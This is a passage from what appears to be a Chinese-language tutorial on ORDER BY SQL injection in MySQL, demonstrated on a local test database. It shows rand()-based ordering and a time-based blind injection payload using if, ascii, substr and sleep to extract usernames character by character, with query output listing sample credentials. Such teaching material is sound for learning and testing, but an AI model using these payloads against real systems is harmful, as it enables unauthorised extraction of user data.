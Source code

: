 ```
mysql root@localhost:sql_injection_test> select id,rand(1) from table1;
+----+---------------------+
| id | rand(1)             |
+----+---------------------+
| 1  | 0.40540353712197724 |
| 2  | 0.8716141803857071  |
| 3  | 0.1418603212962489  |
| 4  | 0.09445909605776807 |
+----+---------------------+
4 rows in set
Time: 0.008s
mysql root@localhost:sql_injection_test> select id,rand(1) from table1 order by rand(1);
+----+---------------------+
| id | rand(1)             |
+----+---------------------+
| 4  | 0.09445909605776807 |
| 3  | 0.1418603212962489  |
| 1  | 0.40540353712197724 |
| 2  | 0.8716141803857071  |
+----+---------------------+
4 rows in set
Time: 0.008s
mysql root@localhost:sql_injection_test> select * from table1 order by rand(1);
+----+----------+----------+-----------------+
| id | username | password | email           |
+----+----------+----------+-----------------+
| 4  | mike     | asdfqwer | mike@gmail.com  |
| 3  | mike     | asdfqwer | mike@gmail.com  |
| 1  | admin    | admin!@# | admin@admin.org |
| 2  | tim      | 123456   | tim@qq.com      |
+----+----------+----------+-----------------+
4 rows in set
Time: 0.008s
```

2. 利用`if`进行延时注入

`select * from users order by (if(ascii(substr((select group_concat(username) from users),1,1))>100,1,sleep(0.1)));`

如果`group_concat(username)`的首字母的ascii值大于100,则在正常时间内返回结果,如果不大于100,则会延迟一段时间(该时间并不直接等于sleep(0.1),而是与其查询的数据的条目数量相关,`延迟时间 = sleeptime * number`)

```
select * from table1 order by sleep(1)
+----+----------+----------+-----------------+
| id | username | password | email           |
+----+----------+----------+-----------------+
| 1  | admin    | admin!@# | admin@admin.org |
| 2  | tim      | 123456   | tim@qq.com      |
| 3  | mike     | asdfqwer | mike@gmail.com  |
| 4  | mike     | asdfqwer | mike@gmail.com  |
+----+----------+----------+-----------------+
4 rows in set
Time: 4.018s
```
